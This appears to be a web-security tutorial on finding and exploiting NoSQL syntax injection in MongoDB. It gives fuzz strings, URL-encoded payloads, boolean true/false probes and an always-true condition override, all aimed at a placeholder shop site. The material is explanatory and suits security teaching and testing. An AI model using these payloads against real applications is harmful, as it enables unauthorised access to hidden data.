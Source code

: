 # Detecting syntax injection in MongoDB

Consider a shopping application that displays products in different categories. When the user selects the **Fizzy drinks** category, their browser requests the following URL:
```bash
https://insecure-website.com/product/lookup?category=fizzy
```
This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
```bash
this.category == 'fizzy'
```

To test whether the input may be vulnerable, submit a fuzz string in the value of the `category` parameter. An example string for MongoDB is:
```
'"`{
;$Foo}
$Foo \xYZ
```
Use this fuzz string to construct the following attack:
```bash
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.

**Note:**
_NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become_ 

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000

## Confirming conditional behavior

After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:
```bash
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```
and
```bash
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

## Overriding existing conditions

Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`:
```bash
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
This results in the following MongoDB query:
```bash
this.category == 'fizzy'||'1'=='1'
```
As the injected condition is always true, the modified query returns all items. This enables you to view all the products in any category, including hidden or unknown categories.
